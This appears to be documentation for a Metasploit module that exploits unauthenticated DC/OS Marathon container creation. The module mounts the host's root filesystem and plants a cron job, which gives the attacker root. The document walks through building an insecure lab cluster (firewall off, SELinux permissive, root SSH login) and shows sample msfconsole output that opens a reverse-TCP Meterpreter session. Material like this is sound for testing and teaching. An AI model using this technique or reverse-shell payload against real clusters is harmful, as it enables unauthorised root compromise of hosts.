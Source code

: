 ## Vulnerable Application
Utilizing the DCOS Cluster's Marathon UI, an attacker can create
a docker container with the '/' path mounted with read/write
permissions on the host server that is running the docker container.
As the docker container executes command as uid 0 it is honored
by the host operating system allowing the attacker to edit/create
files owed by root. This exploit abuses this to creates a cron job
in the '/etc/cron.d/' path of the host server.

*Notes: The docker image must be a valid docker image from
hub.docker.com. Further more the docker container will only
deploy if there are resources available in the DC/OS

## DCOS
This Exploit was tested with CentOS 7 as the host operating system for
the 2 services of the DCOS cluster. With DCOS version 1.7 and 1.8, with
Default 'custom' installation for on site premise setup. Only the Install
part of the DCOS guide was completed, the system hardening and securing
your cluster section where skipped. This is to represent a 'Default' install
with a system admin conducting hasty deployments taking no thought about security.


## To Setup Your Cluster
I recommend doing a 'on-premise'/custom
cluster. https://dcos.io/docs/1.8/administration/installing/custom/
Create a virtual CentOS machine, install requirements base on the above
guide.

```bash
# The TLDR from the above guide
sudo systemctl stop firewalld && sudo systemctl disable firewalld
sudo yum install -y tar xz unzip curl ipset ntp
sudo systemctl start ntpd
sudo systemctl enable ntpd
sudo sed -i s/SELINUX=enforcing/SELINUX=permissive/g /etc/selinux/config && \
   sudo groupadd nogroup && sudo reboot
```

Install a supported version of docker on the CentOS systems
https://dcos.io/docs/1.8/administration/installing/custom/system-requirements/install-docker-centos/

```bash
# The TLDR of the above guide
sudo yum -y remove docker docker-common container-selinux
sudo yum -y remove docker-selinux
sudo yum install -y yum-utils
sudo yum-config-manager \
   --add-repo \
   https://docs.docker.com/engine/installation/linux/repo_files/centos/docker.repo
sudo yum-config-manager --enable docker-testing
sudo yum makecache fast
sudo yum -y install docker-engine-1.11.2
sudo systemctl start docker
sudo systemctl enable docker
sudo echo overlay > /etc/modules-load.d/overlay.conf
sudo reboot
```

Once the CentOS machine has rebooted, edit the systemctl
service file for docker and change the ExecStart- line to
`ExecStart=/usr/bin/docker daemon --storage-driver=overlay -H fd://`
restart the docker service and verify it is running.
lastly generate ssh rsa keys for authentication. And update the
/etc/ssh/sshd_config file to support root login.

```bash
ssh-keygen -t rsa -b 4096
# Press enter until complete, DO NOT PUT A PASSWORD.
cp ~/.ssh/id_rsa.pub ~/.ssh/authorized_keys
cat ~/.ssh/id_rsa # save the output you will need it for later
rm ~/.ssh/id_rsa # before doing this make sure you have saved a copy for later
```

Shut down the CentOS vm, take a snapshot. (This will be your base)
clone the VM 2 times. One will be DCOS-Master, the Other DCOS-Agent.
Start the DCOS-Master and DCOS-Agent virtual machines You just cloned.
Login and get their current IP address.
* Note: I recommend giving them static IPs if you have further use for the cluster.

From here use another Linux machine with docker installed to finish
the installation process. I used an Ubuntu machine with docker installed.

Follow the custom CLI guide for creating the required files in
the genconf folder.
https://dcos.io/docs/1.8/administration/installing/custom/cli/

Example genconf/config.yaml
```
---
agent_list:
- 192.168.0.10
bootstrap_url: file:///opt/dcos_install_tmp
cluster_name: DCOS
exhibitor_storage_backend: static
ip_detect_filename: /genconf/ip-detect
master_discovery: static
master_list:
- 192.168.0.9
process_timeout: 10000
resolvers:
- 8.8.8.8
- 8.8.4.4
ssh_port: 22
ssh_user: root
```
Example genconf/ip-detect
```bash
#!/usr/bin/env bash
set -o nounset -o errexit
export PATH=/usr/sbin:/usr/bin:$PATH
ip=$(ip addr show ens33)
echo $( echo $ip | grep -Eo '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' | head -1)
```

place your id_rsa ssh key into the genconf file and rename the
file to ssh_key and `chmod 0600 genconf/ssh_key`

Deploying the cluster
in the folder containing the genconf folder do the following.
NOTE: if following the cli install from DCOS itself, it will fail
if you do --install-prereqs. It will install an unsupported version of
docker.

```bash
curl -O https://downloads.dcos.io/dcos/stable/dcos_generate_config.sh
chmod +x dcos_generate_config.sh
sudo ./dcos_generate_config.sh --genconf
sudo ./dcos_generate_config.sh --preflight
# If all preflight checks pass
sudo ./dcos_generate_config.sh --deploy
# get a cup of coffie
# wait a minute or two after deploy completes
sudo bash dcos_generate_config.sh --postflight
```

If all is passing navigate to http://[master_ip]:8080/
You should see the Marathon UI web application.

# Exploitation
This module is designed for the attacker to leverage, creation of a
docker container with out authentication through the DCOS Marathon UI
to gain root access to the hosting server of the docker container
in the DCOS cluster.

## Options
- DOCKERIMAGE is the hub.docker.com docker container image you are wanting to have the DCOS Cluster to deploy for this exploit.
- TARGETURI this is the path to make the Marathon UI web request to. By default this is /v2/apps
- WAIT_TIMEOUT is how long you will wait for a docker container to deploy before bailing out if it does not start.
- CONTAINER_ID is optional if you want to have your container docker have a human readable name else it will be randomly generated

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/dcos_marathon
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a docker container and it successfully runs
- [ ] After a minute a session should be opened from the agent server

## Example Output
```
msf > use exploit/linux/http/dcos_marathon
msf exploit(dcos_marathon) > set RHOST 192.168.0.9
RHOST => 192.168.0.9
msf exploit(dcos_marathon) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf exploit(dcos_marathon) > set LHOST 192.168.0.100
LHOST => 192.168.0.100
msf exploit(dcos_marathon) > set verbose true
verbose => true
msf exploit(dcos_marathon) > check
[*] 192.168.0.9:8080 The target appears to be vulnerable.
msf exploit(dcos_marathon) > exploit

[*] Started reverse TCP handler on 192.168.0.100:4444
[*] Setting container json request variables
[*] Creating the docker container command
[*] The docker container is created, waiting for it to deploy
[*] Waiting up to 60 seconds for docker container to start
[*] The docker container is running, removing it
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Sending stage (39690 bytes) to 192.168.0.10
[*] Meterpreter session 1 opened (192.168.0.100:4444 -> 192.168.0.10:54468) at 2017-03-01 14:22:02 -0500
[+] Deleted /etc/cron.d/FOWkTeZL
[+] Deleted /tmp/TIWpOfUR

meterpreter > sysinfo
Computer        : localhost.localdomain
OS              : Linux 3.10.0-327.36.3.el7.x86_64 #1 SMP Mon Oct 24 16:09:20 UTC 2016
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```
